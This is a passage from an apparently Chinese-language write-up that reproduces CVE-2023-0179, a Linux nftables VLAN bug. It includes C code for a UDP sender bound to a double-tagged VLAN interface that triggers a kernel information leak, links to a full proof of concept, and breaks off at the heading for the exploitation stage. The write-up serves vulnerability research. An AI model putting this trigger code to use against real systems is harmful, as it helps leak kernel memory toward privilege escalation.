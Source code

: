 这里需要注意的是，我们指定了捕获数据包的网口，因此数据包需要途径该网口才能够捕获数据包，下面是作者使用的数据包发送的代码，首先是绑定发送数据包的端口为vlan.10，由于vlan.10是在vlan.5上创建的，因此从vlan.10出去的数据包会被打上双层vlan tag，并且vlan.5是在host-enps32上创建的，而host-enps32又是与eth32构成虚拟设备对，因此数据包最终会从eth32发出并且携带双重的vlan tag从而进入nft_payload_copy_vlan的函数内部，触发漏洞。  
```
int send_packet() 
{
    int sockfd;
    struct sockaddr_in addr;
    char buffer[] = "This is a test message";
    char *interface_name = "vlan.10";  // double-tagged packet
    int interface_index;
    struct ifreq ifr;
    memset(&ifr, 0, sizeof(ifr));
    memcpy(ifr.ifr_name, interface_name, MIN(strlen(interface_name) + 1, sizeof(ifr.ifr_name)));

    sockfd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
    if (sockfd < 0) {
        perror("[-] Error creating socket");
        return 1;
    }
 
    // Set the SO_BINDTODEVICE socket option
    if (setsockopt(sockfd, SOL_SOCKET, SO_BINDTODEVICE, (void *)&ifr, sizeof(ifr)) < 0) {
        perror("[-] Error setting SO_BINDTODEVICE socket option");
        return 1;
    }

    memset(&addr, 0, sizeof(addr));
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = inet_addr("192.168.123.123");  // random destination
    addr.sin_port = htons(1337); 
    
    // Send the UDP packet
    if (sendto(sockfd, buffer, sizeof(buffer), 0, (struct sockaddr*)&addr, sizeof(addr)) < 0) {
        perror("[-] Error sending UDP packet");
        return 1;
    }

    close(sockfd);
    return 0;
}
```  
  
可以看到最终完成了内核信息的泄露。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/3RhuVysG9Le2rsobGwCU6dF6FXU2yxhcb8zrsZ6uWA5CdSOuaStxatz4LTlOu8ibYb1FfLvHN3x7U3EFajTbUHQ/640?wx_fmt=other "null")  
  
  
完整poc：https://github.com/h0pe-ay/Vulnerability-Reproduction/blob/master/CVE-2023-0179/poc.c  
# 漏洞利用  
- • 利用JUMP调整stacksize  
  